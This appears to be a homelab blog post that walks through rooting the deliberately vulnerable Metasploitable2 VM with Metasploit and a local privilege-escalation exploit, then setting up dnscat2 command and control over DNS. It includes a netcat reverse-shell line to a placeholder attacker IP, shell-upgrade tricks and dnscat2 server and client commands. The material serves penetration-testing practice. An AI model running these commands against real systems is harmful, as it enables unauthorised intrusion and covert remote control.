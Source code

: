 ```yaml
---
title: A quick referesher of the homelab
categories: [homelab]
tags: [homelab, domain, dns, dnscat2]     # TAG names should always be lowercase
---
```


[main](/posts/lab_main)
## Gain `root` access on metasploitable2
### Gain `www-data` user access:
```bash
# www-data service user access:
  # searchsploit
  searchsploit apache 2.2.8 # out: Apache + PHP < 5.3.12 / < 5.4.2 - cgi-bin Remote Code Execution 
```
msfconsole - metasploit:
	RHOSTS & RPORT- Address & PORT to access the webserver. 
```bash
use php_cgi
set RHOSTS 192.168.189.254
set RPORT 8080
set LPORT 80
run
```

### Root Access:
netcat listener on attacking machine: `sudo netcat -nlvp 443`

```bash
# meterpreter
cd /tmp
upload /usr/share/exploitdb/exploits/linux/local/8572.c ./exp.c
shell

# shell on meterpreter # exp needs "run"
echo '#!/bin/sh' > run
echo '/bin/netcat -e /bin/sh <attacker_ip> 443' >> run
gcc exp.c -o exp
chmod +x exp
cat /proc/net/netlink # search for a positive pid (udev's pid minus 1)
./exp 2708 # say 2708 the pid
```

netcat listener on attacking machine: `whoami`

A better shell (on the attacking machine):
```bash
python -c "import pty;pty.spawn('/bin/bash')"
export TERM=xterm
<ctr+z>
stty raw -echo; fg
```
> You should have the root access
{: .prompt-info}

## DNS based command and control
1. Setup an Authoritative DNS server
2. Install dnscat2 on the server and client
3. Get command and control over DNS

Network traffic:
![dns](/assets/img/dnscat2_traffic_blur.png)

## Setup an authoritative DNS server:
If you are using AWS: [STOK’s video](https://youtu.be/p8wbebEgtDk)
Else, (Still, watch that. It's a good learning src.) I made one: 
1. Spin up a droplet. [droplet_setup]
2. [Get a domain name](/posts/c2_over_dns/#get-a-domain-name) and point the nameservers to digitalocean nameservers
3. Setup the domain on digitalocean
4. Set low ttl for each DNS record type (It may take sometime for DNS propagation.)

## C2 using dnscat2
Download dnscat2: `git clone https://github.com/iagox86/dnscat2.git`

Server:
```bash
# mkdir tools; cd tools; git clone dnscat2; cd dnscat2/server
sudo gem install bundler
sudo chown -R <user_name> /var/lib/gems
sudo apt install ruby-dev make gcc
bundle install
sudo ruby ./dnscat2.rb example.com # your domain name
dnscat2> start --dns port=53531,domain=example.com # you'll get the secret value

# on client
sudo ./dnscat port=53531 --secret=<secret> example.com # or
sudo ./dnscat --dns port=53531,server=<ip>--secret=<secret>

# on server
dnscat2>
	windows
	window -i 1 # session number of the connection
	help # get shell
	shell
	# ctr+z to escape
	windows # list
	window -i 2 # go to the sh window
```

## Active Directory setup
[Active Directory on Azure](https://kamran-bilgrami.medium.com/ethical-hacking-lessons-building-free-active-directory-lab-in-azure-6c67a7eddd7f)

TCM security's PEH course is a good source to learn about Active Directory setup and pentesting.
